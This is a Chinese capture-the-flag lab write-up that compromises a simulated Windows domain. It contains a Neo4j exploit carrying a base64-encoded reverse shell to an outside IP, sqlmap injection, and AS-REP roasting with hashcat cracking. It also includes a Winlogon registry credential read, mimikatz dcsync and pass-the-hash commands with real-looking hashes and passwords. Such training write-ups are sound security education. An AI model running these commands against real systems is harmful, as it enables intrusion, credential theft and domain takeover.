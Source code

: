 # Flag1

还是先fscan扫一下，扫全端口，不然会漏掉一部分

<img src="images/22.png" alt="QQ_1727349458943" style="zoom:50%;" />

![QQ_1727349421553](images/1.png)

发现了neo4j的网站，用payload打一梭子https://github.com/zwjjustdoit/CVE-2021-34371.jar)

```
java -jar ./rhino_gadget.jar rmi://39.98.121.218:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}" 
```

![QQ_1727349493415](images/2.png)

这次居然不用提权

![QQ_1727349534132](images/3.png)

提示了kerberos的认证过程

# Flag2

先用wget把fscan和stowaway下载下来吧

![QQ_1727349662163](images/4.png)

发现了内网网段172.22.6.36/16，是一个B段内网

![QQ_1727349716221](images/5.png)

还是用fscan扫C段先看看吧

![QQ_1727349848458](images/6.png)

```
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.6.12     is alive
(icmp) Target 172.22.6.25     is alive
(icmp) Target 172.22.6.36     is alive
(icmp) Target 172.22.6.38     is alive
[*] Icmp alive hosts len is: 4
172.22.6.25:445 open
172.22.6.12:445 open
172.22.6.25:139 open
172.22.6.12:139 open
172.22.6.25:135 open
172.22.6.12:135 open
172.22.6.38:80 open
172.22.6.38:22 open
172.22.6.36:22 open
172.22.6.12:88 open
172.22.6.36:7687 open
[*] alive ports len is: 11
start vulscan
[*] NetInfo:
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] NetInfo:
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetBios: 172.22.6.25     XIAORANG\WIN2019               
[*] NetBios: 172.22.6.12     [+]DC DC-PROGAME.xiaorang.lab       Windows Server 2016 Datacenter 14393 
[*] 172.22.6.12  (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.6.38        code:200 len:1531   title:后台登录
[*] WebTitle: https://172.22.6.36:7687  code:400 len:50     title:None
已完成 11/11
[*] 扫描结束,耗时: 14.304078502s
```

发现了内网机器

```
172.22.6.12 域控DC-PROGAME.xiaorang.lab
172.22.6.25 XIAORANG\WIN2019 
172.22.6.38 内网其他机器，但是有web服务
```

![QQ_1727349931080](images/7.png)

是一个登录页面，burp设置socks代理抓包

![QQ_1727349964599](images/8.png)

尝试弱口令和sql注入

![QQ_1727350092145](images/9.png)

发现存在sql注入，直接联合注入即可，sqlmap跑一下

![QQ_1727350129447](images/10.png)

存在三张表

![QQ_1727350180107](images/11.png)

把oa_f1Agggg整张表dump下来，也不要放过其他两个表

<img src="images/23.png" alt="QQ_1727350246755" style="zoom:50%;" />

<img src="images/24.png" alt="QQ_1727350270123" style="zoom:50%;" />

发现oa_users这张表的邮箱和域用户邮箱很相似，可能是域内的一些用户名，保存下来

# Flag3&Flag4

目前还有域内机器和DC，拿刚才的用户名跑一下AS_REP Roasting

AS_REP Roasting是一种对用户账户进行离线爆破的方式，需要关闭预身份验证，而此选项又是默认开启的，所以有一定的限制，默认开启的预身份验证是会记录密码错误次数来防止爆破的，关闭预身份验证后，在进行AS_REQ之后的时候，KDC不会进行任何验证就将TGT和用该用户Hash加密的Login Session Key返回，由于AS_REP的数据包中Login Session Key的是由用户Hash进行加密的，因此，可以对获取到的用户Hash加密的Login Session Key进行离线爆破，得到对应用户的明文密码

对于域用户，如果设置了选项Do not require Kerberos preauthentication(不要求Kerberos预身份认证)，此时向域控制器的88端口发送AS-REQ请求，对收到的AS-REP内容重新组合，能够拼接成”Kerberos 5 AS-REP etype 23”(18200)的格式，接下来可以使用hashcat或是john对其破解，最终获得该用户的明文口令

```
python3 GetNPUsers.py  -dc-ip 172.22.6.12 -usersfile 1.txt  -format hashcat xiaorang.lab/
```

<img src="images/25.png" alt="QQ_1727350664277" style="zoom:50%;" />

发现zhangxin这个账户可以尝试爆破

```
$krb5asrep$23$zhangxin@XIAORANG.LAB:2ae1d19a9fe23b36bd5daa18db1e1cbc$e6cc28774c9bb88fc66f49a90e3366a7eef55619469d51e49a5d1c8489f2f2b238c6ab3f7598d443fd3d2252ac210d64e04c6708586e00499db8037d594b32cc21e3c6b6d917e4f3da5d180c177b01b1e61d87de44a872f5a7d7890d98a90d617a19309f69b54c913e40c44b5c96c178daeaed7ea9c26fe16e480e7c7cb91c08466a2f06b1b1073d327c8d98d9bb8b92af7275050a3444ad22a46effef9c3e021f50443213c1e0a83f7bd50b54fc780251bf26b946d67ef1aed45fc17f987d1e8a83dadf505907bd3fd9c392b0f4936f0322401c89379c8ba7519e5cdfbf7e3917e48b8722f1a76e4be8e687
```

hashcat爆破一下

```
hashcat -m 18200 1.txt -a 0 ./rockyou.txt  --force
```

![QQ_1727350772920](images/12.png)

得到了密码

```
zhangxin::strawberry
```

![QQ_1727350866126](images/13.png)

rdp登上了172.22.6.25这台机器，用sharphound收集一下信息

```
SharpHound.exe -c all --OutputDirectory ./
```

查找到域控的最短路径

![QQ_1727351082568](images/14.png)

目前我们拿下的是zhangxin这个可以rdp登了win2019这台机器的用户

![QQ_1727351170828](images/15.png)

发现WIN2019这台机器对YUXUAN用户有HasSession，YUXUAN有administrator的SIDHistory，那拿下YUXUAN这个用户就可以拿下域控了，不过现在没有管理员权限，没办法盗取YUXUAN的token

但是wp说这样可以抓到密码

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

![QQ_1727351448454](images/16.png)

这样抓到密码是有一个前提的，是需要开启自动登录，也就是AutoAdminLogon为1，才能抓到密码

```
yuxuan::Yuxuan7QbrgZ3L
```

用yuxuan这个账户重新登录一下WIN2019这台机器

![QQ_1727352949670](images/17.png)

SIDHistroy可以参考https://blog.csdn.net/qq_41874930/article/details/111612386

SIDHistory是一个为支持域迁移方案而设置的属性，当一个对象从一个域迁移到另一个域时，会在新域创建一个新的SID作为该对象的objectSid，在之前域中的SID会添加到该对象的sIDHistory属性中，此时该对象将保留在原来域的SID对应的访问权限

![QQ_1727352468492](images/18.png)

相当于这里YUXUAN就具有了administrator的权限，可以直接用dcsync来dump域内所有hash

```
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

![QQ_1727353016634](images/19.png)

拿到了administrator的hash，可以直接pth到域内所有机器去了

```
python3 smbexec.py -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 xiaorang.lab/administrator@172.22.6.12 -codec gbk
```

![QQ_1727353423719](images/20.png)

```
python3 smbexec.py -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 xiaorang.lab/administrator@172.22.6.25 -codec gbk
```

![QQ_1727353478889](images/21.png)



参考链接：

https://blog.csdn.net/qq_41874930/article/details/111612386

https://blog.csdn.net/uuzeray/article/details/141757283

https://fushuling.com/index.php/2023/08/31/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7time/
